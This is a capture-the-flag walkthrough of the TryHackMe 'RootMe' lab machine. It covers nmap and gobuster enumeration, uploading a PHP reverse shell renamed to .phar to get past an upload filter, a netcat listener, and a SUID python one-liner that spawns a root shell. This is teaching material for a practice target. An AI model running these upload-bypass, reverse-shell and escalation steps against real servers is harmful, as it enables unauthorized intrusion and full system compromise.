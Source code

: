 ```yaml
---
title: Tryhackme RootMe walkthrough
date: 2024-03-17 16:28
categories: [walkthroughs]
tags: [tryhackme, writeup, walkthrough]
---
```



# Hello
Hello everyone, I try to make my writeups as simple as possible while showing my thought process in hacking the machines. 

Don't read my writeups if you want are not willing to learn, i will **not** give out answers. However, if you are willing to learn, you should read my writeups because i will show my thought process in detail.

## Eumeration
When doing enumeration you almost always want to do an nmap scan with version detection, let's do that: 
```
nmap -sV 10.10.109.74
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-17 09:59 EDT
Nmap scan report for 10.10.109.74
Host is up (0.046s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.15 seconds

```

From this scan you should be able to answer questions 1, 2 and 3


As we can see in the scan, there is an apache web server running on port 80, let's check this out: 

![Alt text](/assets/img/rootme/image.png)

Hmmm, nothing interesting here, let's try and brute force some directories and see if we can find anything interesting.

```
gobuster dir -w /usr/share/wordlists/dirb/big.txt -u 10.10.109.74
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.109.74
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/css                  (Status: 301) [Size: 310] [--> http://10.10.109.74/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.109.74/js/]
/panel                (Status: 301) [Size: 312] [--> http://10.10.109.74/panel/]
/server-status        (Status: 403) [Size: 277]
/uploads              (Status: 301) [Size: 314] [--> http://10.10.109.74/uploads/]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
```

Wow! This is worth gold, we have got 2 very interesting directories, those are : /panel and /uploads

Let's take a look at the panel directory: ![Alt upload page](/assets/img/rootme/upload.png)

Interesting, we can upload files, let's try uploading one. And looking at the /uploads directory.
Okay, so when we upload a file we are able to see it in the /uploads directory.

## RCE with file uploads

When you can upload files to a server you should always test if you can run RCE (remote code execution) exploits. A great website for generating reverse shells is https://www.revshells.com/

A reverse shell is basically a program that will run on the victims computer and will contact the attackers computer and let the attacker on a shell on the victims computer.

Here is a better schematic picture: 
![Alt rce diagram](https://patchmypc.com/wp-content/uploads/2023/03/Remote-Code-Execution-RCE-Diagram-WEB.jpg)

Let's generate a reverse shell with https://www.revshells.com/ 
![Alt text](/assets/img/rootme/revshells.png)
In the ip input field you will fill in 
**your** local ip, the program will have to know this to contact your machine.

Let's run our netcat server: 
```
nc -lvnp 9999
```

Now take a moment and start thinking yourself, what programming language is used to run web servers as backend?

<details>  <summary>The answer</summary>PHP</details>

Yes, thats right! Let's generate a reverse shell for this language, click the language on the sidebar in revshells and copy the code and put it in a file.

## Uploading our reverse shell

Let's upload our reverse shell, oh shit, we can't upload it...? It's forbidden?

Take a moment and try to search ways we can execute php code without uploading a .php file, maybe we can find another extension. You can also use ChatGPT.

<details>  <summary>The answer</summary>The .phar extension is used to package libraries/applications into single files. It's like Jar files for java.</details>

Let's change our file extension to this extension. Let's try and upload this file.

![Alt upload successful](/assets/img/rootme/upload%20successfull.png)

NICE! It worked, let's now open this file in the /uploads directory & look at our netcat shell.
```
connect to [10.8.110.97] from (UNKNOWN) [10.10.109.74] 42100
SOCKET: Shell has connected! PID: 1433
whoami
www-data
```

THERE IS NO WAY! We got it we got a reverse shell.

<small>As we can see, we are the user www-data, now the user www-data is a user that servers like Apache and Nginx make so that attackers like us will only have restricted access if we manage to be able to get into the machine. This user is purely made for hosting the server, and nothing else.</small>

You can find the user flag by running
```
cat /var/www/user.txt
```

## Privilege escalation

Privilige escalation is increasing ur privileges in your local machine, here is a good schematic picture:

![Alt text](/assets/img/rootme/upload%20successfull.png)

Horizontal is going from user to user, or admin to admin. (for example)

Vertical is going from user to root. (for example)

Every time, again EVERY TIME, you are doing privilege escalation you should ALWAYS check SUID permissions.

<small>Files that have SUID permissions set when executed, will run the privileges of the file 
owner and not the user itself.
</small>

Take a moment, and maybe even ask ChatGPT on how to check SUID permissions.
<details>  <summary>The answer</summary>
find / -user root -perm /4000
</details>

Let's run this command:

```
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
```

Interesting... take a moment and think, how we can utilize running one of these files and get root privileges.

To be honest, you can use multible of these executables to gain privileges. But the most obvious one for me is:
```
/usr/bin/python
```

## Abusing our SUID privileges with python
There is a website you should almost always use for escalating privileges, this website is: https://gtfobins.github.io/

As the website says itself, "GTFOBins is a curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems."

Now we can use this website by searching up python and selecting SUID, then just copying the code of the last line.
Let's run this: 
```
/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

WOOT! LETS GO!

We fucking did it boyz
```
/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
whoami
root
```

To find the root flag run this command:
```
cat /root/root.txt
```


Congratulations on completing this machine, I hope you have an amazing rest of your day.

